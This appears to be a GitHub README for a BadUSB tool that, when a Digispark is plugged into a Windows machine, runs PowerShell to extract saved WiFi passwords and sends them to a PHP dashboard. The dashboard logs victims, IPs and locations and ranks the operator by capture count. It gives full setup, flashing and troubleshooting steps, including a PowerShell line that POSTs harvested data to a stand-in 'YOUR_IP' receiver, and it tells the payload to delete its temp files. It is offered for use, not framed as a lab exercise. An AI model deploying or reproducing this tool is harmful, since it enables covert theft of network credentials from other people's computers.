



# WiFi Stealer Dashboard

A BadUSB payload that grabs WiFi credentials from Windows machines and displays them on a web dashboard.



---

## What it does

- Attiny85/Digispark acts as a keyboard when plugged into Windows.
- Runs PowerShell to extract saved WiFi passwords.
- Sends everything to a PHP server on Kali or Windows.
- Shows the captured data in a web dashboard with:
  - Session-based login.
  - Unique capture counting (Victim ID + SSID + Password).
  - Ranking system and password strength stats.

---

## Dashboard Features



- Login protection using a simple session-based login in `index.php`:

  ```php
  $VALID_USER = 'admin';
  $VALID_PASS = 'secret123';
  ```

  Change these values to your own username and password.

- Unique capture logic:
  - Duplicate entries with the same **Victim ID + SSID + Password** are ignored.
  - Stats and ranking only use unique captures.

- Ranking system:
  - Rookie: 0–10 unique captures  
  - Intermediate: 11–30 unique captures  
  - Advanced: 31–100 unique captures  
  - Expert: 100+ unique captures  

- Password stats:
  - Total unique captures.
  - Weak password percentage.
  - Average password length.
  - Unique SSIDs and source IPs.

- CSV & filters:

  

  - Filter by Victim ID, SSID, IP, or OS.
  - Export captures to CSV.
  - Import captures from CSV.
  - Delete single entries or clear all history.

---

## Setting Up the Server

You can host the dashboard on either Kali or Windows.

### On Kali Linux

```bash
# Clone the repo
cd ~
git clone https://github.com/Zypher17/wifi-stealer.git
cd wifi-stealer

# Install web server packages
sudo apt update
sudo apt install apache2 php

# Start Apache
sudo systemctl enable apache2
sudo systemctl start apache2

# Check your IP address
ip addr show | grep "inet " | grep -v 127.0.0.1

# Copy files to the web root
sudo cp index.php /var/www/html/
sudo cp wifi-recv.php /var/www/html/

# Create the log file and set permissions
sudo touch /var/www/html/wifi_creds.log
sudo chown www-data:www-data /var/www/html/{index.php,wifi-recv.php,wifi_creds.log}
sudo chmod 664 /var/www/html/wifi_creds.log
```

Test the receiver:

```bash
curl -X POST http://localhost/wifi-recv.php -d "data=test"
cat /var/www/html/wifi_creds.log
```

If you see `data=test`, the server is working.

Open the dashboard:

```text
http://YOUR_IP/index.php
```

Replace `YOUR_IP` with your Kali machine IP, log in, and you should see the dashboard.

---

### On Windows (XAMPP)

1. Download XAMPP from apachefriends.org.
2. Install it with Apache and PHP selected.
3. Start Apache from the XAMPP control panel.

4. Get the project files:

```powershell
git clone https://github.com/Zypher17/wifi-stealer.git
# Or download the ZIP from GitHub if you don’t have git
```

5. Copy the PHP files to the web folder:

```powershell
Copy-Item index.php C:\xampp\htdocs\
Copy-Item wifi-recv.php C:\xampp\htdocs\
```

6. Create the log file:

```powershell
New-Item C:\xampp\htdocs\wifi_creds.log -ItemType File
icacls C:\xampp\htdocs\wifi_creds.log /grant Users:F
```

7. Find your IP:

```powershell
ipconfig
```

Look for the IPv4 address on your active adapter.

Test the receiver:

```powershell
Invoke-WebRequest -Uri 'http://localhost/wifi-recv.php' -Method POST -Body "data=test"
Get-Content C:\xampp\htdocs\wifi_creds.log
```

Open the dashboard:

```text
http://localhost/index.php
```

Log in with your credentials.

---

## Programming the Digispark


### Getting Arduino IDE ready

1. Open Arduino IDE.
2. Go to `File → Preferences`.
3. Add this to **Additional Boards Manager URLs**:

```text
http://digistump.com/package_digistump_index.json
```

4. Go to `Tools → Board → Boards Manager`.
5. Search for `Digistump AVR` and install it.
6. Select `Digispark (Default - 16.5MHz)`.

### Uploading the payload

1. Open the Digispark payload sketch:

```text
payloads/wifi_stealer_digispark.ino
```

2. In the sketch, find the line that defines the receiver URL and change the IP address:

```cpp
$u='http://YOUR_IP/wifi-recv.php';
```

Replace `YOUR_IP` with the IP of your Kali or Windows server.

3. The payload should:

- Export Wi‑Fi profiles using `netsh wlan export profile` to `%TEMP%`.
- Parse each `Wi-Fi-*.xml` file and build objects with fields:  
  `Time, VictimID, SSID, Pass, VictimLANIP, OS, PublicIP, LANextra, Lat, Lon, PacketSummary`.
- Export these objects as CSV to `%TEMP%\w.csv`.
- Use `Invoke-WebRequest` to POST the CSV contents to `http://YOUR_IP/wifi-recv.php`.
- Delete XML and CSV temp files and exit PowerShell.

4. Click **Upload** in Arduino IDE.
5. When Arduino IDE says `Plug in device now...`, plug in the Digispark.
6. Wait for the upload to finish.

After flashing, plugging the Digispark into a Windows machine will:

- Open PowerShell.
- Extract saved WiFi profiles and passwords.
- POST the CSV data to your PHP receiver.
- Clean up temp files.

---

## Viewing the Results

All captured data is saved in:

```text
wifi_creds.log
```

The dashboard is available at:

```text
http://YOUR_IP/index.php
```

The dashboard shows:

- Total number of unique captures.
- SSIDs and passwords.
- Victim ID and IP address.
- OS information.
- Weak / ok password status.
- Rank and progress bar.
- Delete single entries or clear all history.

---

## Removing the Project

### On Kali Linux

```bash
sudo rm -f /var/www/html/index.php
sudo rm -f /var/www/html/wifi-recv.php
sudo rm -f /var/www/html/wifi_creds.log
```

If you want to remove the repo too:

```bash
rm -rf ~/wifi-stealer
```

### On Windows (XAMPP)

Delete these files from `C:\xampp\htdocs\`:

```text
index.php
wifi-recv.php
wifi_creds.log
```

If you cloned the repo, you can also delete the project folder.

---

## Troubleshooting

### Dashboard loads, but no data appears

1. Test the PHP receiver from the server:

   ```bash
   curl -X POST http://localhost/wifi-recv.php -d "data=test"
   cat /var/www/html/wifi_creds.log
   ```

2. If nothing is written:
   - Check Apache status.  
   - Check `wifi_creds.log` exists and is writable.

### PowerShell error: “Unable to connect to the remote server”

From the Windows target:

```powershell
ping YOUR_IP
Test-NetConnection YOUR_IP -Port 80
```

Fix the URL in the payload if needed and reflash the Digispark.

### CSV looks good on Windows, but dashboard is empty

- Manually POST the CSV:

  ```powershell
  $b = Get-Content $csvPath -Raw
  Invoke-WebRequest -UseBasicParsing -Uri 'http://YOUR_IP/wifi-recv.php' -Method POST -Body $b
  ```

- Watch the log on the server:

  ```bash
  sudo tail -f /var/www/html/wifi_creds.log
  ```

If manual POST works, the issue is usually the hard-coded URL in the sketch or timing/keystroke problems.

### Digispark upload issues

- Plug it in only after clicking **Upload**.
- Try a different USB port.
- Board set to `Digispark (Default – 16.5 MHz)`.
- Only one `.ino` in the sketch folder.
- `#include "DigiKeyboard.h"` at the top.

---

## Notes

- Edit login credentials in `index.php` (`$VALID_USER`, `$VALID_PASS`).
- Ranking thresholds and labels can be tweaked in the rank calculation section of `index.php`.
